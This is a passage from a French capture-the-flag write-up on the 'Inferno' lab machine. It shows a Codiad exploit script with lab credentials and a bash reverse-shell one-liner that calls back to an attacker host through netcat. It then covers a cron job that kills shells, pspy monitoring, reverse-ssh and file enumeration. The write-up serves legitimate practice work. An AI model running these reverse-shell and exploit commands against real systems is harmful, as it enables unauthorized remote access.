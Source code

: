 ```console
$ python3 codiad.py http://192.168.56.224/inferno/ admin dante1 192.168.56.1 9999 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/192.168.56.1/10000 0>&1 2>&1"' | nc -lnvp 9999
nc -lnvp 10000
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"admin"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"inferno","path":"\/var\/www\/html\/inferno"}}
[+] Writeable Path : /var/www/html/inferno
[+] Sending payload...
```

J'ai dû changer les ports pour adapter à mon firewall mais finalement j'obtiens bien un shell.

Après un moment le shell est stoppé, il s'agit en fait d'une crontab dont on peut observer l'exécution avec [GitHub - DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy).

```
2023/05/30 12:06:01 CMD: UID=0    PID=25315  | sh /var/www/html/machine_services1320.sh 
2023/05/30 12:06:01 CMD: UID=0    PID=25314  | pkill bash 
2023/05/30 12:06:01 CMD: UID=0    PID=25313  | nc -nvlp 57000
```

Ce script se trouve dans la racine web et ressemble à ceci :

```bash
sudo pkill bash &
nc -nvlp 21 &
nc -nvlp 23 &
nc -nvlp 25 &
nc -nvlp 110 &
nc -nvlp 88 &
nc -nvlp 53 &
nc -nvlp 194 &
nc -nvlp 389 &
nc -nvlp 464 &
nc -nvlp 636 &
--- snip ---
```

Je ne me souviens pas avoir vu tous ces ports ouverts donc j'ai potentiellement scanné au bon moment.

## Un train d'enfer

En faisant exécuter un `reverse-ssh` j'obtiens un shell plus stable.

Je fais un tour des fichiers appartenant au seul utilisateur présent :

```console
www-data@Inferno:/home/dante$ find . -type f -readable -ls 2> /dev/null 
   273333      4 -rw-r--r--   1 dante    dante        3526 Dec  6  2020 ./.bashrc
   276311      0 -rw-r--r--   1 root     root            0 Dec  6  2020 ./Pictures/5.jpg
   276308      0 -rw-r--r--   1 root     root            0 Dec  6  2020 ./Pictures/2.jpg
   276309      0 -rw-r--r--   1 root     root            0 Dec  6  2020 ./Pictures/3.jpg
   276310      0 -rw-r--r--   1 root     root            0 Dec  6  2020 ./Pictures/4.jpg
   276307      0 -rw-r--r--   1 root     root            0 Dec  6  2020 ./Pictures/1.jpg
   276312      0 -rw-r--r--   1 root     root            0 Dec  6  2020 ./Pictures/6.jpg
   276315    136 -rwxr-xr-x   1 root     root       138856 Dec  6  2020 ./Documents/centauro.doc
   276313     28 -rwxr-xr-x   1 root     root        27400 Dec  6  2020 ./Documents/beatrice.doc
   276314    136 -rwxr-xr-x   1 root     root       138728 Dec  6  2020 ./Documents/virgilio.doc
   276317     68 -rwxr-xr-x   1 root     root        68416 Dec  6  2020 ./Documents/caronte.doc
```